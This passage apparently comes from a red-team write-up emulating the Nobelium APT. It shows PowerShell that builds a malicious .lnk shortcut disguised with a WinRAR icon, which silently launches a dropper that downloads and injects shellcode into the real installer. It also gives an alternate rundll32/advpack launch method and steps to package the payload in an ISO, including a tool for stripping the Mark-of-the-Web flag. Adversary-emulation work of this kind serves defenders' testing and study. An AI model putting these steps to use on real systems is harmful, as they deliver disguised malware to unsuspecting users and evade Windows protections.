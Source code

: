 <a name="create-the-malicious-lnk"></a>
### Create the malicious .lnk

- Create a shortcut file with the same icon as before and this `.lnk` executes `winrar-x64-611-check.exe` (`HellsGateInjector/Dropper`) to remotely download and inject shellcode into  `winrar-x64-611.exe` (the legitimate installer).

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\Users\shari\Downloads\Test\winrar-x64-611-setup.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\cmd.exe"
$link.iconlocation = "C:\Users\shari\Downloads\winrar.ico"
$link.arguments = "/c winrar-x64-611-check.exe"
$link.save()
```

- An alternate way of execution derived from the `Nobelium` attack is:

```
$link.targetpath = "C:\Windows\System32\rundll32.exe"
$link.arguments = "advpack.dll,RegisterOCX winrar-x64-611-check.exe"
```

<a name="create-an-iso"></a>
### Create an ISO

- Download and install `AnyBurn` from: http://www.anyburn.com/thank-you-install-anyburn.htm

- Say if the executable's in use were marked by the `MOTW flag` a suitable circumvent to remove this would be to use this project: https://github.com/mgeeky/PackMyPayload

- Select `Create image file from files/folders`

	![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/APT-Emulation-Nobellium/Pasted%20image%2020220818013000.png)
